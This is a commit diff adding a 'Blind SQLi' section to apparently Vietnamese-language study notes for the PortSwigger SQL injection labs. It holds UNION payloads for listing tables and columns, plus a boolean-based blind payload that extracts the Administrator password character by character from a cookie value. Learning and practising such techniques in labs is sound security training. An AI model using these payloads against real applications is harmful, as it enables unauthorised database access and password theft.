

Before and after one commit to SuchABlackCat/PortSwigger-Learning-Path, a Markdown page: SQL Injection/SQL Injection.md, the part around the change. GitHub-like rendering; blank space fills up the shorter version.

Commit message:
Add Blind-SQLi

```diff
--- a/SQL Injection/SQL Injection.md
+++ b/SQL Injection/SQL Injection.md
@@ -88,3 +88,29 @@ WHERE category = 'Gifts' or 1=1;--' AND released = 1;</pre>
 <pre>' union select null, table_name from information_schema.tables--</pre>
 <p><strong>Payload tên cột</strong>:</p>
 <pre>' union select null, column_name from information_schema.columns where table_name='users'--</pre>
+
+<h2>3. Blind SQLi</h2>
+<p>Blind SQL Injection: web bị SQLi nhưng kết quả truy vấn không hiển thị ra giao diện, hoặc không có lỗi SQL hiện ra. <br>Ta chỉ có thể thấy server phản hồi khác nhau khi điều kiện SQL đúng hoặc sai.</p>
+<p>Vì không thấy dữ liệu nên UNION SELECT không dùng được.<br>Ta sẽ tạo ra điều kiện đúng/sai để quan sát sự khác biệt trong phản hồi (ví dụ: có/không có "Welcome back").</p>
+<p><b>Bối cảnh:</b></p>
+<ul>
+  <li>Web có cookie: <code>Cookie: TrackingId=u5YD3PapBcR4lN3e7Tj4</code></li>
+  <li>Server chạy truy vấn:
+    <pre>SELECT TrackingId FROM TrackedUsers
+WHERE TrackingId = 'u5YD3PapBcR4lN3e7Tj4'</pre></li>
+  <li>Nếu có trong DB thì hiện “Welcome back”.</li>
+</ul>
+<p>Giờ ta thử chèn: <code>xyz' AND '1'='1</code>.</p>
+<p>SQL trở thành:</p>
+<pre>SELECT TrackingId FROM TrackedUsers
+WHERE TrackingId = '<b>xyz' AND '1'='1</b>'</pre>
+<p>'1'='1' luôn đúng -> TRUE -> "Welcome back"</p>
+<p>Áp dụng điều này ta sẽ trích xuất username và password.</p>
+<p><b>Payload</b>:</p>
+<pre>xyz' AND SUBSTRING((SELECT Password FROM Users WHERE Username='Administrator'), 1, 1) > 'm</pre>
+<ul>
+  <li>Do Blind-SQLi không trả về dữ liệu nên không thể dùng UNION SELECT.</li>
+  <li>Thay vào đó ta sẽ trích xuất từng kí tự để so sánh - dùng hàm <code>substring([string], [start], [length])</code></li>
+  <li>Nếu Welcome back → nghĩa là ký tự đầu > <code>'m'</code>. Nếu không → ký tự đầu ≤ <code>'m'</code></li>
+</ul>
+<p>Lặp lại bước trên cho đến khi ta tìm được toàn bộ password.</p>
```
